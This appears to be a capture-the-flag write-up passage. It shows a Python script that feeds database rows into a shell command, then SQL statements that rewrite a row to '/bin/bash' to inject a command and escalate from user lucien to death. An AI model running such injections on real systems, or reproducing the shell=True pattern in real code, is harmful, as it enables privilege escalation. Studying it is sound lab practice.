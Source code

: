 ```

        # Create a cursor object to execute SQL queries
        cursor = connection.cursor()

        # Construct the MySQL query to fetch dreamer and dream columns from dreams table
        query = "SELECT dreamer, dream FROM dreams;"

        # Execute the query
        cursor.execute(query)

        # Fetch all the dreamer and dream information
        dreams_info = cursor.fetchall()

        if not dreams_info:
            print("No dreams found in the database.")
        else:
            # Loop through the results and echo the information using subprocess
            for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)

    except mysql.connector.Error as error:
        # Handle any errors that might occur during the database connection or query execution
        print(f"Error: {error}")

    finally:
        # Close the cursor and connection
        cursor.close()
        connection.close()

# Call the function to echo the dreamer and dream information
getDreams()

```

we already the lucien's credential for mysql

may be we can change the DB `library` to get death user,
`/home/lucien/getDreams.py` in death can be executed by lucien with password of death

```
> show databses;
> use library;
> show tables;
> select * from dreams;

+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+

> UPDATE dreams SET dream = '/bin/bash' WHERE dream = 'Flying in the sky';

> select * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | /bin/bash                          |
```